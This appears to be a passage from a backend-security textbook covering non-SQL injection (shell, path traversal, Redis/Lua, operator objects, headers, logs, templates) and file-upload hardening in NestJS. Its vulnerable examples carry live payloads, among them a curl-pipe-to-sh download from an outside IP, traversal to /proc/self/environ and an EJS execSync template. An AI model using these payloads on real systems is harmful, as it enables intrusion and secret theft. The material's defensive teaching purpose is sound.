


## 40.29 Injection beyond SQL

#### Concept

SQL injection gets all the attention, but SQL is only one of the interpreters your process talks to. An **interpreter** is anything that reads a string and decides what to *do* based on its structure: a shell, a filesystem path resolver, the Redis wire protocol, a query-object builder, the HTTP header parser, a log parser, a template engine.

Injection is always the same bug wearing different clothes: **untrusted data crosses from being a value to being part of the syntax**. The user was supposed to supply a filename; they supplied a filename *plus a semicolon plus a command*. The user was supposed to supply an invoice id; they supplied `../../../etc/passwd`. The interpreter cannot tell the difference, because by the time it sees the string, your data and their data are the same characters.

So the defense is always the same shape too: **keep data out of the syntax**. Pass arguments as arguments, not as concatenated text. Where the interpreter has no parameterised form, validate against an allow-list of exactly what you expect, and reject everything else.

#### Why does it exist?

Because string concatenation is the easiest thing to type. `` `wkhtmltopdf ${input}.pdf` `` is one line and works on your machine the first time. Parameterisation is two or three lines and forces you to think about what the argument actually is. Every injection vulnerability in history started as a shortcut that worked in development.

The second reason is that most engineers have a mental list with one item on it: "use parameterised queries". They apply it religiously to PostgreSQL and then build a shell command with a template literal ten lines later, because shells did not appear on the list.

#### Mental model

Imagine you take a delivery address over the phone and read it out to a courier. The customer says: *"14 Oak Street. And when you get there, also load everything in the warehouse into your van and drive it to 9 Elm Road."* You repeat it word for word. The courier obeys, because the courier cannot tell where your instructions end and the customer's begin.

Every interpreter is that courier. Parameterisation is the fix: instead of reading a sentence, you hand the courier a form with an `address` box. Whatever the customer wrote goes in the box and stays in the box.

#### How it works

Seven families you will actually meet in a NestJS + PostgreSQL e-commerce service.

**1. Command injection through `child_process.exec`**

The reporting service turns an HTML invoice into a PDF and lets the user name the file:

```ts
// VULNERABLE: reports.service.ts
import { exec } from 'node:child_process';
import { promisify } from 'node:util';
const execAsync = promisify(exec);

async generatePdf(htmlPath: string, dto: { filename: string }) {
  // exec() runs the string through /bin/sh -c. Every shell metacharacter is live.
  await execAsync(`wkhtmltopdf ${htmlPath} /var/reports/${dto.filename}.pdf`);
  return `/var/reports/${dto.filename}.pdf`;
}
```

The exploit is a `POST /reports` with:

```json
{ "filename": "q3; curl -s http://198.51.100.7/x.sh | sh #" }
```

The shell sees two commands. The second one downloads and runs a script as the Node user, which in a typical container means read access to every environment variable, including `DATABASE_URL` and the JWT signing key. If the container runs as root (a common default), it means the whole container.

Variations that bypass a naive blocklist of `;`: backticks, `$(...)`, `&&`, `||`, newline, `|`, and `${IFS}` when spaces are filtered.

The fix has three layers:

```ts
// FIXED: reports.service.ts
import { execFile } from 'node:child_process';
import { promisify } from 'node:util';
import { randomUUID } from 'node:crypto';
import * as path from 'node:path';
const execFileAsync = promisify(execFile);

const REPORT_DIR = '/var/reports';

async generatePdf(htmlPath: string, dto: { label?: string }) {
  // 1. The server names the file. The user gets a label stored in the database, not in the path.
  const key = `${randomUUID()}.pdf`;
  const out = path.join(REPORT_DIR, key);

  // 2. execFile does NOT spawn a shell: args are passed to execve as an array.
  //    "; curl ..." would be one literal argv entry, meaningless to wkhtmltopdf.
  await execFileAsync('/usr/bin/wkhtmltopdf', ['--disable-local-file-access', htmlPath, out], {
    timeout: 30_000,          // a hung renderer must not hold a worker forever
    maxBuffer: 1024 * 1024,
  });

  await this.repo.insert({ key, label: dto.label?.slice(0, 120) ?? 'Report' });
  return key;
}
```

Layer three is *argument* injection, which survives even without a shell. If the user controls the first characters of an argv entry, they can turn a value into a flag: `--output=/etc/cron.d/x`, or for `curl`, `-o /app/dist/main.js`. So validate the shape of anything you pass, and put `--` before positional arguments when the tool supports it. If you validate a user-supplied token at all, the rule is `/^[A-Za-z0-9_-]{1,64}$/` and nothing else.

**2. Path traversal in a download endpoint**

```ts
// VULNERABLE: files.controller.ts
@Get('invoices/:name')
download(@Param('name') name: string, @Res() res: Response) {
  return res.sendFile(path.join('/var/app/invoices', name));
}
```

`GET /files/invoices/..%2F..%2F..%2Fetc%2Fpasswd` works because Express decodes percent-escapes before your handler sees the parameter, and `path.join` happily normalises `../..` upward. On a container, `/proc/self/environ` is a better prize than `/etc/passwd`: it hands the attacker every secret in the process environment.

Traversal is not always `../`. Watch for absolute paths (`/etc/passwd` as the whole parameter beats `path.join` if you use `path.resolve` carelessly), Windows separators (`..\\`), double encoding (`%252e%252e%252f`), unicode look-alikes, and a trailing null byte in older runtimes.

```ts
// FIXED: resolve, then prove the result is inside the base directory.
import * as path from 'node:path';

const BASE = path.resolve('/var/app/invoices');

export function resolveWithin(base: string, candidate: string): string {
  const full = path.resolve(base, candidate);
  // The trailing separator matters: '/var/app/invoices-evil' startsWith '/var/app/invoices'.
  if (full !== base && !full.startsWith(base + path.sep)) {
    throw new BadRequestException('Invalid path');
  }
  return full;
}
```

That is the mechanical fix, and it is the *second* line of defense. The real fix is to never let a user-supplied string become a path at all:

```ts
// BEST: the user supplies an id; the database supplies the key. There is no traversal surface.
@Get('invoices/:id')
async download(@CurrentUser() user: JwtUser, @Param('id', ParseUUIDPipe) id: string, @Res() res: Response) {
  const inv = await this.repo.findOne({ where: { id, customerId: user.sub } }); // ownership check too
  if (!inv) throw new NotFoundException();
  return res.sendFile(resolveWithin(BASE, inv.storageKey), {
    headers: { 'Content-Disposition': `attachment; filename="invoice-${inv.number}.pdf"` },
  });
}
```

**3. Redis command injection and why `ioredis` protects you**

Old Redis clients built commands by concatenating text into the inline protocol, so a value containing `\r\n` could start a new command: a "username" of `alice\r\nFLUSHALL\r\n` really did flush the database. Modern clients, `ioredis` included, speak **RESP**, where every argument is length-prefixed:

```text
*3\r\n$3\r\nSET\r\n$12\r\nsession:1234\r\n$25\r\n{"userId":"alice\r\nEVIL"}\r\n
```

The server reads `$25` and then takes exactly 25 bytes as data. `\r\n` inside those bytes is data, not a delimiter. That is parameterisation, done by the protocol. `ioredis`'s `redis.set(key, value)` builds this framing for you, which is why you do not need to escape anything.

Two real risks remain:

- **Key namespace collision.** `redis.get(\`session:${req.params.id}\`)` with an id of `../` or of another user's id is not protocol injection, it is authorization failure by string building. Namespace deliberately, validate ids, and never build a key from raw user text: `session:${uuidValidate(id) ? id : throw}`.
- **Lua script injection.** `EVAL` takes a script *as a string*. If you concatenate user data into the script body, you have injection into a full programming language running inside Redis, single-threaded, with access to every key.

```ts
// VULNERABLE: user data becomes Lua source
await redis.eval(`return redis.call('GET', '${key}')`, 0);

// FIXED: script is a constant; data arrives as KEYS and ARGV
const RESERVE = `
  local left = tonumber(redis.call('GET', KEYS[1]) or '0')
  if left < tonumber(ARGV[1]) then return -1 end
  return redis.call('DECRBY', KEYS[1], ARGV[1])`;
const remaining = await redis.eval(RESERVE, 1, `stock:${skuId}`, String(qty));
```

**4. NoSQL-style injection and unvalidated operator objects**

The classic is MongoDB's `$where`, which evaluates JavaScript on the server:

```js
db.users.find({ $where: `this.email == '${email}'` });   // email = "' || true || '"  returns every user
```

Node's version of this bug appears even in a PostgreSQL shop, because HTTP query strings and JSON bodies can produce **objects where you expected strings**. Express's `qs` parser turns `?id[gt]=0` into `{ id: { gt: '0' } }`. Hand that object to an ORM that accepts operator objects and the meaning of your query changes:

```ts
// VULNERABLE: Sequelize with operator aliases enabled, or any code that forwards a raw filter object
const products = await Product.findAll({ where: req.body.filter });
// body: { "filter": { "price": { "$gt": 0 }, "tenantId": { "$ne": null } } }
// The tenant filter the developer "knew" was there is now overwritten by the attacker.
```

Sequelize v6 removed string operator aliases by default for exactly this reason (`operatorsAliases` must be opted into), but the general pattern survives wherever a request-shaped object reaches a `where`. The fix is not escaping; it is refusing to accept structure from the client:

```ts
// FIXED: a DTO of scalars, and a server-built where clause.
export class ProductQueryDto {
  @IsOptional() @IsString() @Length(1, 60) q?: string;
  @IsOptional() @IsInt() @Min(0) @Type(() => Number) minPriceCents?: number;
  @IsOptional() @IsIn(['price_asc', 'price_desc', 'newest']) sort?: string;
}

const SORTS = { price_asc: ['priceCents', 'ASC'], price_desc: ['priceCents', 'DESC'], newest: ['createdAt', 'DESC'] } as const;

async search(tenantId: string, dto: ProductQueryDto) {
  const where: WhereOptions = { tenantId };                        // never overridable
  if (dto.q) where.name = { [Op.iLike]: `%${dto.q.replace(/[%_]/g, '\\$&')}%` }; // escape LIKE wildcards
  if (dto.minPriceCents !== undefined) where.priceCents = { [Op.gte]: dto.minPriceCents };
  return Product.findAll({ where, order: [SORTS[dto.sort ?? 'newest']], limit: 50 });
}
```

Note the `ORDER BY` allow-list. Sort columns and directions can never be parameterised in SQL, so a map from client token to hard-coded column is the only safe form. The same applies to TypeORM: `qb.orderBy(req.query.sort)` is SQL injection with extra steps.

**5. HTTP header injection and response splitting**

```ts
res.setHeader('Location', `/products/${req.query.next}`);
```

With `next = "x\r\nSet-Cookie: session=attacker-value"`, a naive HTTP stack would emit two headers and let the attacker set a cookie in the victim's browser; with a longer payload, split the response into two and serve arbitrary HTML from your origin. Node's HTTP layer has rejected CR/LF in header values for years (`ERR_INVALID_CHAR`), so on modern Node the direct split becomes a 500 instead — which is now a cheap denial-of-service and a log-noise generator rather than a takeover.

What still bites:

- **Open redirect.** `Location: ${next}` where `next = "https://evil.example/login"` sends your users to a phishing page carrying your brand, and is the standard bootstrap for OAuth token theft (see Part 40.4 on `redirect_uri` validation).
- **Header values copied into other protocols.** A user-controlled string that ends up in an email header (`Subject`, `To`) is SMTP header injection, which does allow CR/LF and lets an attacker BCC themselves on your transactional mail.

```ts
// FIXED: relative-only redirect, allow-listed prefix.
function safeNext(next: unknown): string {
  if (typeof next !== 'string') return '/';
  if (!next.startsWith('/') || next.startsWith('//')) return '/';   // '//evil.com' is protocol-relative
  if (/[\r\n]/.test(next)) return '/';
  return next;
}
res.redirect(302, safeNext(req.query.next));
```

**6. Log injection and forged log lines**

```ts
this.logger.log(`login failed for ${email} from ${req.ip}`);
```

An attacker registers with the "email":

```text
x@x.com from 1.2.3.4\n2026-09-09T10:00:01.000Z INFO login success for admin@shop.com from 10.0.0.5
```

Your log file now contains a line that looks exactly like a successful admin login. During an incident, that costs your responders hours. Worse, many teams ship logs to a dashboard that renders them as HTML; an injected `` becomes stored XSS inside the tool your admins use while investigating. Injected ANSI escapes can even rewrite a terminal for whoever runs `tail -f`.

The fix is structured logging, which is a parameterisation story again: the message template is a constant, the data is a field, and the serialiser escapes it.

```ts
// FIXED: pino via nestjs-pino. JSON encoding turns \n into the two characters \ and n.
this.logger.warn({ event: 'auth.login.failed', email, ip: req.ip, reason: 'bad_password' }, 'login failed');
// -> {"level":40,"event":"auth.login.failed","email":"x@x.com from 1.2.3.4\n2026-...","msg":"login failed"}
```

One line, one JSON object, no way to forge a second event. While you are there: if any log or report is exported to CSV, prefix cells beginning with `=`, `+`, `-` or `@` with a single quote, or you have handed the attacker formula injection in your finance team's spreadsheet.

**7. Server-side template injection in email templates**

A marketing feature lets staff edit the order-confirmation email. The service does:

```ts
const html = ejs.render(template.body, { order, user });   // template.body came from the database
```

EJS compiles templates into JavaScript. Anyone who can write a template can write code:

```text
<%= process.mainModule.require('child_process').execSync('id').toString() %>
```

That is remote code execution as a *feature*. Handlebars is safer because it is logic-less, but it has a history of prototype-based gadget chains, and `{{{triple}}}` output is unescaped HTML. The senior position: **user-authored templates are user-authored code**. Either treat them that way (render in a locked-down sandbox), or do not have templates at all.

```ts
// FIXED: placeholder substitution against an explicit variable map. No engine, no code path.
const ALLOWED = new Set(['first_name', 'order_number', 'total', 'tracking_url']);

export function renderTemplate(body: string, vars: Record<string, string>): string {
  return body.replace(/\{\{\s*([a-z_]{1,32})\s*\}\}/g, (_m, name: string) => {
    if (!ALLOWED.has(name)) return '';                 // unknown placeholders vanish, they do not execute
    return escapeHtml(vars[name] ?? '');
  });
}
```

If you genuinely need loops and conditionals for template authors, run the render in a separate worker process with no network, a read-only filesystem, a 200 ms CPU timeout and a memory cap, and treat a crash as an alert.

#### NestJS example

A single `SafeIoModule` that exports the primitives, so nobody in the team has to remember the rules:

```ts
// safe-io.service.ts
@Injectable()
export class SafeIoService {
  private readonly execFileAsync = promisify(execFile);

  /** Run a binary with argv array. No shell, bounded time, bounded output. */
  run(bin: string, args: string[], timeoutMs = 15_000) {
    if (args.some((a) => typeof a !== 'string')) throw new Error('argv must be strings');
    return this.execFileAsync(bin, args, { timeout: timeoutMs, maxBuffer: 4 * 1024 * 1024 });
  }

  /** Reject anything that is not a plain slug before it ever becomes a path or an argv entry. */
  slug(input: string, max = 64): string {
    if (!/^[A-Za-z0-9_-]{1,200}$/.test(input) || input.length > max) {
      throw new BadRequestException('Invalid identifier');
    }
    return input;
  }

  within(base: string, candidate: string): string {
    const root = path.resolve(base);
    const full = path.resolve(root, candidate);
    if (full !== root && !full.startsWith(root + path.sep)) throw new BadRequestException('Invalid path');
    return full;
  }
}
```

Then an ESLint rule bans the raw APIs so the safe path is the only path:

```json
{
  "rules": {
    "no-restricted-imports": ["error", {
      "paths": [{ "name": "child_process", "importNames": ["exec", "execSync"],
                  "message": "Use SafeIoService.run (execFile, no shell)." }]
    }]
  }
}
```

#### PostgreSQL example

Two database-side notes that matter for injection beyond SQL.

```sql
-- 1. COPY ... FROM PROGRAM executes a shell command on the database host. It requires superuser
--    (or pg_execute_server_program). This is the reason your app role must never be superuser:
--    one SQL injection then becomes remote code execution on the database server.
SELECT rolname, rolsuper FROM pg_roles WHERE rolsuper;   -- should list only the bootstrap role

-- 2. Dynamic SQL inside PL/pgSQL is injectable too. Use format() with %I (identifier) and %L (literal),
--    never string concatenation.
CREATE OR REPLACE FUNCTION archive_table(tbl text, cutoff timestamptz)
RETURNS bigint LANGUAGE plpgsql AS $$
DECLARE moved bigint;
BEGIN
  EXECUTE format('WITH d AS (DELETE FROM %I WHERE created_at < %L RETURNING *) SELECT count(*) FROM d',
                 tbl, cutoff) INTO moved;   -- %I quotes the identifier, %L quotes and escapes the literal
  RETURN moved;
END $$;
```

#### Production scenario

An e-commerce platform runs 60 requests per second across 40 endpoints. Three of them touch an interpreter other than SQL: PDF rendering (`execFile` into `wkhtmltopdf`), invoice download (paths), and transactional email (templates). Those three files carry a `// SECURITY:` comment block and are in the `CODEOWNERS` list for the security guild, so every change needs a second reviewer. Semgrep runs in CI with four rules: no `child_process.exec`, no `path.join` with a request parameter, no `eval`/`Function`, no template engine `render` with a non-literal first argument. It fires roughly once a month, always on a new engineer's first PR, which is exactly when you want it to fire.

#### Failure scenario

At 02:14 the on-call was paged for CPU saturation on the reports worker. The pod was at 100 percent across all cores and had been for 40 minutes. `kubectl exec` showed a process named `kdevtmpfsi` — a well-known crypto miner. The entry point was the report filename: the endpoint had shipped 11 months earlier with `exec()` and a `filename` field, and a scanner had finally found it. Because the container ran as root with no egress restrictions, the miner downloaded itself in one line.

The response: kill the deployment, rotate every secret visible in that pod's environment (database password, Redis password, JWT signing key, S3 credentials), rebuild the image with `USER node`, add a NetworkPolicy allowing egress only to Postgres, Redis and the S3 endpoint, and replace `exec` with `execFile`. The forensic answer to "did they reach the database" took six hours because the pod had no egress logging. That gap got fixed too.

#### Edge cases & failure modes

- `execFile` without a shell is still vulnerable to **argument injection** when user data starts an argv entry with `-`.
- `spawn(cmd, args, { shell: true })` silently reintroduces the shell.
- `path.normalize` alone does not confine a path; only a resolved-prefix check does, and the check must include the separator.
- Symlinks inside the base directory escaping it; use `fs.realpath` before the prefix check when users can create files.
- Case-insensitive filesystems (macOS, Windows) defeating case-sensitive allow-lists.
- Redis `KEYS user:*` built from user input scanning the whole keyspace and blocking the single-threaded server; use `SCAN`, and never accept a pattern from a client.
- A "search" endpoint that forwards `req.query` into an ORM `where` because the DTO was `Record<string, string>`.
- Log fields that are objects with circular references, crashing the serialiser and dropping the log line that mattered.
- Email `Subject` built from a user-supplied order note, giving SMTP header injection.
- Template variables rendered into a `<script>` block, where HTML escaping is not the right escaping (JSON-encode instead).

#### How a Senior Backend Engineer thinks about this

They keep a list of every interpreter the service talks to, and for each one they can name the parameterised form: `$1` for SQL, argv arrays for processes, RESP arguments for Redis, `KEYS`/`ARGV` for Lua, structured fields for logs, a variable map for templates, `format('%I','%L')` for dynamic SQL. When there is no parameterised form (a sort column, a table name, a file path), they use an allow-list, never an escaper, because escapers are written once and forgotten while attackers keep reading.

They also assume one of these will be missed, so they bound the damage: non-root containers, no shell in the image where possible, egress network policies, an app database role with no superuser and no `pg_execute_server_program`, and secrets that are short-lived enough that a leak has a deadline.

#### Common mistakes

- Treating "we use an ORM" as protection against non-SQL injection.
- Blocklisting shell metacharacters instead of removing the shell.
- Sanitising a path with `replace('../', '')`, which `....//` defeats.
- Building log messages with template literals.
- Letting non-engineers author templates in a real template engine because it was "just for marketing".
- Accepting a filter object from the client and merging it into the query's `where`.

#### Interview questions

1. *Why is `execFile` safer than `exec`, and what attack still works against `execFile`?* Expected: no `/bin/sh -c`, argv passed to `execve`; argument injection via a leading `-` still works, so validate shape.
2. *Show me a path traversal fix and explain why `startsWith(base)` alone is wrong.* Expected: `path.resolve` plus prefix check including `path.sep`; sibling directory `invoices-evil`.
3. *Is Redis vulnerable to injection with `ioredis`? Where is the real risk?* Expected: RESP length-prefixes arguments, so no protocol injection; the risks are key namespacing and concatenated Lua.
4. *A `?sort=` parameter goes into `ORDER BY`. How do you make it safe?* Expected: allow-list map to hard-coded column and direction; identifiers cannot be bound parameters.
5. *How does log injection actually hurt you?* Expected: forged events, poisoned SIEM queries, stored XSS in the log viewer, broken incident timelines.
6. *When is a template engine a remote code execution vector?* Expected: whenever the template body is untrusted; EJS compiles to JS.

#### Practical exercise

Take an endpoint that shells out and an endpoint that serves files. Convert the first to `execFile` with a server-generated filename, and the second to an id-based lookup with `resolveWithin`. Then write tests.

Acceptance criteria: a filename of `a; touch /tmp/pwned` produces a normal PDF and `/tmp/pwned` does not exist; `GET /files/invoices/..%2f..%2f..%2fetc%2fpasswd` returns 400 or 404, never file contents; a request for another customer's invoice id returns 404; a login attempt with an email containing `\n` produces exactly one log line; a Semgrep rule banning `child_process.exec` fails CI when reintroduced.

## 40.30 File upload security

#### Concept

An upload endpoint is the only place where a user hands you *bytes you will store, process and later serve back*. Everything else they send you is consumed and discarded. That difference is why uploads are their own security topic: the attack does not have to work now, it has to work later, when your image processor reads it, when your antivirus does not, when a browser fetches it from your CDN, or when an admin opens it.

Part 33 — File Storage and Uploads covers the architecture: presigned URLs, multipart, CDN, lifecycle rules. This section covers only the security controls, and the order in which they must run.

#### Why does it exist?

Because "it is just a profile picture" is one of the most expensive sentences in backend engineering. A profile picture upload has, at various companies, produced: remote code execution through an image library, stored XSS through an SVG served from the main domain, a 4 GB bill through unbounded uploads, a disk-full outage through a zip bomb, and a full-database read through a filename that was also a path.

#### Mental model

Imagine a mailroom in a large office. Parcels arrive from strangers. You do not open them at the reception desk, and you certainly do not carry them straight to the CEO's office. You check the size and weight at the door, you log them, you put them in a screening room, a scanner looks inside, and only then do they get delivered — and even then, the mailroom repacks the contents into your own boxes so nothing arrives in the sender's packaging.

That is the upload pipeline: check at the door, quarantine, scan, transform into your own format, then publish.

#### How it works

The pipeline, and the state machine that makes it safe to have an asynchronous scanner:





The rule that makes this work: **nothing outside the `clean` state is ever served, linked, or attached to an email.** The API returns a media id immediately; a `GET /media/:id` on a non-clean row returns 409 with a status, not the bytes.

**1. Content type: sniffing versus magic bytes**

The browser-supplied `Content-Type` and the file extension are both attacker-controlled strings. The only evidence about a file is its bytes. Read the first few kilobytes and check the signature:

```ts
import { fileTypeFromBuffer } from 'file-type';   // ESM; use dynamic import in CJS builds

const ALLOWED = new Map<string, string[]>([
  ['image/jpeg', ['jpg', 'jpeg']],
  ['image/png',  ['png']],
  ['image/webp', ['webp']],
  ['application/pdf', ['pdf']],
]);

export async function detectType(head: Buffer, declared: string) {
  const sniffed = await fileTypeFromBuffer(head);         // reads magic bytes, ignores the name
  if (!sniffed || !ALLOWED.has(sniffed.mime)) {
    throw new UnsupportedMediaTypeException('File type not allowed');
  }
  if (sniffed.mime !== declared) {
    // Not automatically an attack (browsers get this wrong), but log it: a spike is a probe.
    this.logger.warn({ event: 'upload.type_mismatch', declared, sniffed: sniffed.mime });
  }
  return sniffed;                                          // { mime, ext } - trust this, not the request
}
```

Two things magic bytes do **not** solve. SVG is valid XML with no magic number and can contain `<script>`; either ban it or sanitise it with DOMPurify in an XML-aware mode. And **polyglots** exist: a file that is a valid JPEG *and* a valid HTML document, or a JPEG carrying a PHP payload in a comment segment. The answer to polyglots is not a better sniffer, it is re-encoding (point 5).

**2. Size limits at three layers**

One limit is not a limit, because each layer fails differently.

| Layer | Control | What it protects |
|---|---|---|
| Ingress / nginx | `client_max_body_size 10m;` | The Node process never allocates for a 2 GB body |
| Body parser | `multer` `limits: { fileSize: 8 * 1024 * 1024, files: 1 }` | A direct-to-pod request, or a proxy misconfiguration |
| Storage | S3 presigned POST `content-length-range` | A client that uploads straight to S3, bypassing your API |
| Business | per-user daily quota in Postgres | Cost, not memory: 10,000 legitimate 8 MB uploads is 80 GB |

Also: never use `multer.memoryStorage()` for anything user-facing. Ten concurrent 8 MB uploads is 80 MB of heap you did not budget for, and it is trivially triggered. Stream to disk or straight to object storage.

**3. Store outside the web root, and private by default**

Local disk: files go to a volume that no static-file middleware serves. `app.useStaticAssets('/var/app/public')` next to `/var/app/uploads` is one config typo away from serving uploads directly.

S3: Block Public Access on at the account and bucket level, no object ACLs, a bucket policy that denies anything but your role, and reads only through short-lived presigned GETs (5 to 15 minutes). If you use a CDN, the origin is an Origin Access Identity, not a public bucket.

**4. The stored-XSS-via-storage problem**

Here is the bug that keeps happening. A user uploads `payload.html`. Your code stores the browser-supplied `Content-Type: text/html` as S3 object metadata. Later, a link to `https://app.example.com/files/payload.html` is opened by an admin. S3 (or your API) serves it with `Content-Type: text/html`, the browser renders it **on your origin**, and the script inside reads `document.cookie`, calls your API with the admin's session, and creates a new admin user.

Four fixes, and you want all of them:

```ts
// 1. Force the content type from the sniffed value, never from the request.
// 2. Force a download instead of a render.
// 3. Tell the browser not to sniff its way back to HTML.
const cmd = new PutObjectCommand({
  Bucket: process.env.MEDIA_BUCKET,
  Key: key,
  Body: stream,
  ContentType: sniffed.mime === 'application/pdf' ? 'application/pdf' : sniffed.mime,
  ContentDisposition: `attachment; filename="${asciiFallback}"; filename*=UTF-8''${encodeURIComponent(original)}`,
  Metadata: { 'original-name': encodeURIComponent(original) },
});
```

```text
# 4. Serve user content from a different registrable domain, never a subdomain of the app.
app.example.com          -> your app, your cookies
usercontent-example.net  -> uploads only; no cookies, no CORS to the app, CSP: sandbox
```

The separate domain is the control that still works when the other three are misconfigured, because same-origin policy is doing the work instead of a header you might forget. Add `X-Content-Type-Options: nosniff` on every response from both.

**5. Re-encode images: strip payloads and EXIF in one step**

Do not "validate" an image. Rebuild it. Decoding and re-encoding drops every appended payload, every comment segment, every EXIF block (which contains GPS coordinates of your users' homes), and normalises the file to something you produced.

```ts
import sharp from 'sharp';

export async function normaliseImage(input: Buffer) {
  const img = sharp(input, {
    limitInputPixels: 50_000_000,   // ~50 MP: rejects decompression bombs before they allocate
    sequentialRead: true,
    failOn: 'error',                // reject truncated or malformed files outright
  });
  const meta = await img.metadata();
  if (!meta.width || !meta.height || meta.width > 10_000 || meta.height > 10_000) {
    throw new BadRequestException('Image dimensions not allowed');
  }
  // rotate() applies EXIF orientation then discards metadata; no withMetadata() call means EXIF is gone.
  return img.rotate().resize({ width: 2000, height: 2000, fit: 'inside', withoutEnlargement: true })
            .webp({ quality: 82 }).toBuffer();
}
```

A 6,000 x 6,000 PNG of one flat colour compresses to about 40 KB and expands to roughly 144 MB of RGBA in memory. That is the image decompression bomb, and `limitInputPixels` is the fix. Run image processing in a worker with a memory cap, not in the request thread.

**6. Virus scanning in an async pipeline**

Scanning takes 200 ms to several seconds and needs a big signature database, so it does not belong in the request path. The upload handler writes the row as `uploaded` and enqueues a job; a BullMQ worker with a ClamAV sidecar does the scan and moves the state.

```ts
@Processor('media-scan')
export class MediaScanProcessor extends WorkerHost {
  async process(job: Job<{ mediaId: string }>) {
    const media = await this.repo.findOneByOrFail({ id: job.data.mediaId });
    const buf = await this.storage.getQuarantined(media.storageKey);

    const type = await detectType(buf.subarray(0, 4100), media.declaredMime);   // magic bytes
    const verdict = await this.clamav.scanBuffer(buf, 30_000);                  // clamd over TCP
    if (verdict.isInfected) {
      await this.repo.update(media.id, { status: 'infected', scannedAt: new Date() });
      await this.storage.deleteQuarantined(media.storageKey);
      await this.alerts.securityEvent('upload.infected', { mediaId: media.id, userId: media.userId, sig: verdict.viruses[0] });
      return;
    }
    const clean = type.mime.startsWith('image/') ? await normaliseImage(buf) : buf;
    await this.storage.putClean(media.storageKey, clean, type.mime);
    await this.storage.deleteQuarantined(media.storageKey);
    await this.repo.update(media.id, { status: 'clean', mime: type.mime, bytes: clean.length, scannedAt: new Date() });
  }
}
```

Antivirus catches known malware, which mostly matters when your users share files with each other or when uploads reach a Windows desktop later. It is a layer, not the layer.

**7. Zip bombs and decompression limits**

If you accept archives (bulk product imports are the usual reason), never hand the file to a library that extracts to disk. Stream entries and enforce four limits: total uncompressed bytes, per-entry bytes, entry count, and compression ratio. And check entry names for **zip slip** — an entry named `../../etc/cron.d/x` will happily be written outside your target directory by naive extraction code.

```ts
const MAX_TOTAL = 200 * 1024 * 1024, MAX_ENTRIES = 2_000, MAX_RATIO = 120;
let total = 0, entries = 0;
for await (const entry of zip) {
  if (++entries > MAX_ENTRIES) throw new BadRequestException('Too many entries');
  const name = path.basename(entry.path);                     // drops any directory component
  if (!/^[A-Za-z0-9._-]{1,120}$/.test(name)) { entry.autodrain(); continue; }
  total += entry.vars.uncompressedSize;
  if (total > MAX_TOTAL) throw new BadRequestException('Archive too large when expanded');
  if (entry.vars.uncompressedSize / Math.max(entry.vars.compressedSize, 1) > MAX_RATIO) {
    throw new BadRequestException('Suspicious compression ratio');
  }
  await pipeline(entry, createWriteStream(resolveWithin(TMP, name)));
}
```

The classic `42.zip` is 42 KB and expands to 4.5 petabytes through nested layers, so also cap nesting depth at one: do not extract archives found inside archives.

**8. Filename sanitisation and unicode tricks**

The safest design stores a server-generated key (`{uuid}.webp`) and keeps the original name only as *display metadata*, escaped at render time. If you must use the original name, handle:

- Path separators and traversal: `path.basename`, then a character allow-list.
- Windows reserved names: `CON`, `PRN`, `AUX`, `NUL`, `COM1`..`LPT9`, with or without extension.
- Leading dots (`.htaccess`, `.env`) and trailing dots/spaces (Windows strips them, changing the extension).
- **Right-to-left override**: a filename that embeds the U+202E character, spelled `invoice` + `U+202E` + `gnp.exe`, displays as `invoiceexe.png` in most user interfaces while still being an executable. Strip every bidi control character: U+200E, U+200F, U+202A to U+202E, and U+2066 to U+2069.
- Unicode normalisation: normalise to NFC so two names that look identical do not become two keys.
- Length: cap at 120 characters after normalisation; some filesystems cap at 255 *bytes*, and one emoji is four.
- Double extensions: `photo.php.jpg` is only dangerous if something executes by extension; another reason nothing user-uploaded is ever inside an executable path.

```ts
export function safeDisplayName(raw: string): string {
  const base = path.basename(raw).normalize('NFC').replace(/[\u200E\u200F\u202A-\u202E\u2066-\u2069\u0000-\u001F]/g, '');
  const cleaned = base.replace(/[^A-Za-z0-9._ -]/g, '_').replace(/^\.+/, '').slice(0, 120);
  return /^(con|prn|aux|nul|com[1-9]|lpt[1-9])(\.|$)/i.test(cleaned) ? `file_${cleaned}` : (cleaned || 'file');
}
```

**9. Rate limiting and quotas**

Uploads cost bandwidth, CPU (image processing), storage and scanning capacity, so they need tighter limits than reads:

```ts
@Post('media')
@Throttle({ default: { limit: 20, ttl: 60_000 } })      // 20 uploads per minute per IP
@UseInterceptors(FileInterceptor('file', { limits: { fileSize: 8 * 1024 * 1024, files: 1 } }))
async upload(@CurrentUser() user: JwtUser, @UploadedFile() file: Express.Multer.File) {
  await this.quota.assertWithinDailyBytes(user.sub, file.size, 500 * 1024 * 1024);  // per-user, per-day
  return this.media.acceptUpload(user.sub, file);
}
```

#### PostgreSQL example

```sql
